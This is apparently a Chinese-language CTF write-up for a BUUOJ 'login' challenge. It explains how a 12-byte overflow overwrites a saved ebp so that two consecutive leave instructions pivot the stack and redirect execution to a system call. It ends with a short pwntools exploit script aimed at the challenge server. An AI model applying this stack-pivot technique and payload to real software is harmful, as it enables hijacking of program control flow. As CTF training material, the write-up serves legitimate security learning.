 但是这样要注意一点，如果正常的栈溢出需要的大小为16这里只有12我们只能取巧，这个巧就是靠逆向分析了，没办法的

这里我们很明确的可以控制他的bp寄存器，那么同时发现有两个leave连在一起

![](http://i.imgur.com/1MJE2Fp.png)

第一个 leave 执行前：



[![img](http://i.imgur.com/zGly5Y1.png)](http://i.imgur.com/zGly5Y1.png)



第一个 leave 执行后：



[![img](http://i.imgur.com/Tdw8H5R.png)](http://i.imgur.com/Tdw8H5R.png)



leave 语句执行后 ebp 的值变为原先储存的值，esp 的值变为原来 ebp 的值加 4，同理：
第二个 leave 执行前：



[![img](http://i.imgur.com/2SZXKpx.png)](http://i.imgur.com/2SZXKpx.png)



第二个 leave 执行后：



[![img](http://i.imgur.com/iz1Xrrs.png)](http://i.imgur.com/iz1Xrrs.png)



所以攻击思路为：输入的 12 个字节的最后四个字节为 input 的地址：



[![img](http://i.imgur.com/CsHpsbZ.png)](http://i.imgur.com/CsHpsbZ.png)



即覆盖了 ebp，ebp 保存的是上一个栈帧的 esp，（最开始压栈的**mov ebp， esp**操作）。这里覆盖的是 main 函数的 ebp（因为 auth 函数进入时 push ebp，push 进来的是 main 函数的 ebp 值），所以在 main 函数时的 esp 还是正常的，ebp 已经是我们覆盖的值了。所以第二次 leave 后，esp 指向的是 input 的第 4~7 个字节，然后 ret，弹出这四个字节，所以这四个字节要填充调用 system 的地址。
总的来说就是通过控制 ebp 来控制 esp，进而控制 eip，这可以在 offbyone 漏洞中利用，通过溢出 ebp 来完成攻击

exp

```python
from pwn import *
i=0
context.log_level='debug'
r=process('./login')
r=remote('node4.buuoj.cn','29285')
r.recv()
payload='a'*4+p32(0x8049278)+p32(0x0811eb40)
print(payload)
r.send(payload.encode('base64'))
r.interactive()
```
